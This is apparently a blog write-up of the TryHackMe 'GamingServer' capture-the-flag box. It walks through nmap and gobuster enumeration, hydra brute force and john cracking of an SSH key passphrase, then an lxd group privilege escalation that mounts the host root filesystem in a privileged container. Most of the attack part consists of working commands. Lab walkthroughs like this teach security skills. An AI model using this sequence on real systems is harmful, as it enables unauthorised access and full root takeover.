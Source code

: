```yaml
---
title: TryHackMe - GamingServer
author: Bonface
date: 2024-02-09 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - http
  - gobuster
  - ssh
  - brute
  - lxd
image:
  path: /assets/img/try_hack_me/Easy/GamingServer/0.jpeg
  alt: GamingServer
---
```


# GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

## Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](../assets/img/try_hack_me/Easy/GamingServer/1.png)

## /secrets  
![](../assets/img/try_hack_me/Easy/GamingServer/2.png)  
I got a secret file that after downloading i found that it was a `ssh RSA`  
![](../assets/img/try_hack_me/Easy/GamingServer/3.png)  


![](../assets/img/try_hack_me/Easy/GamingServer/4.png)
surfing through the web i get an upload directory.
## /uploads
![](../assets/img/try_hack_me/Easy/GamingServer/5.png)

I downloaded the dict.lst file that contains a list of i think passwords or usernames.  
![](../assets/img/try_hack_me/Easy/GamingServer/6.png)

- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`



## source-code
Going back i got a comment from the dev.  
![](../assets/img/try_hack_me/Easy/GamingServer/7.png)


## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```
![](../assets/img/try_hack_me/Easy/GamingServer/8.png)

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```
![](../assets/img/try_hack_me/Easy/GamingServer/9.png)
---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  
![](../assets/img/try_hack_me/Easy/GamingServer/10.png)

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```
![](../assets/img/try_hack_me/Easy/GamingServer/11.png)

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

![](../assets/img/try_hack_me/Easy/GamingServer/12.png)
